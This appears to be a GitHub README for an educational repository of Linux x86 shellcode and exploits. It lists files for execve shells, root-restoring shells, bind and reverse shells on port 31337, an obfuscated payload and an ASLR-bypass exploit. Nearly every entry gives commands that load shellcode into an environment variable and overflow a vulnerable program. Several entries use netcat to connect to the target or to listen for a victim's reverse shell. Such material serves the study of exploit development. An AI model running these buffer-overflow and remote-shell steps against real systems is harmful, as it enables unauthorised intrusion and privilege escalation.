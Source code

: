 # Raw Shellcode

Some C and x86 Assembly code to build a shell-spawning shellcode from scratch

Tested on **Linux Kernel 2.6.20**


### List of files

#### getenvaddr.c

Get a (shellcode) environment variable address within a program
```
$ gcc -g -o getenvaddr getenvaddr.c
$ ./getenvaddr <env_var> <vuln_program>
```

#### exec_shell

Spawn a shell with execve()
```
$ nasm <exec_shell.s>
$ export SHELLCODE=$(cat exec_shell)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### priv_shell

Restore root privileges and spawn a shell
```
$ gcc -o drop_priv drop_priv.c
$ nasm <priv_shell.s>
$ export SHELLCODE=$(cat priv_shell)
$ ./getenvaddr SHELLCODE ./<drop_priv>
$ ./drop_priv $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### priv_shell2

Reviewed payload
```
$ gcc -o drop_priv drop_priv.c
$ nasm <priv_shell2.s>
$ export SHELLCODE=$(cat priv_shell2)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./drop_priv $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### bind_port

Create a TCP socket, bind to port 31337 and wait for clients
```
$ nasm <bind_port.s>
$ export SHELLCODE=$(cat bind_port)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### bind_shell

Bind a shell on port 31337
```
$ nasm <bind_shell.s>
$ export SHELLCODE=$(cat bind_shell)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
bad$ nc <IP> 31337  # connect to target
```

#### bind_shell2

Reviewed payload
```
$ nasm <bind_shell2.s>
$ export SHELLCODE=$(cat bind_shell2)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
bad$ nc <IP> 31337  # connect to target
```

#### reverse_shell

Connect back to <bad_IP>:31337 and open a shell
```
$ nasm <reverse_shell.s>
$ export SHELLCODE=$(cat reverse_shell)
$ ./getenvaddr SHELLCODE ./<vuln_program>
bad$ nc -lp 31337  # listen for victim
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### reverse_shell_obf

Obfuscated payload
```
$ nasm <reverse_shell_obf.s>
$ export SHELLCODE=$(cat reverse_shell_obf)
$ ./getenvaddr SHELLCODE ./<vuln_program>
bad$ nc -lp 31337  # listen for victim
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### aslr_exploit

Exploit aslr_vuln program, bypass ASLR restriction and spawn a shell
```
$ gcc -o aslr_vuln aslr_vuln.c
$ gcc -o aslr_exploit aslr_exploit.c
$ ./aslr_exploit
```
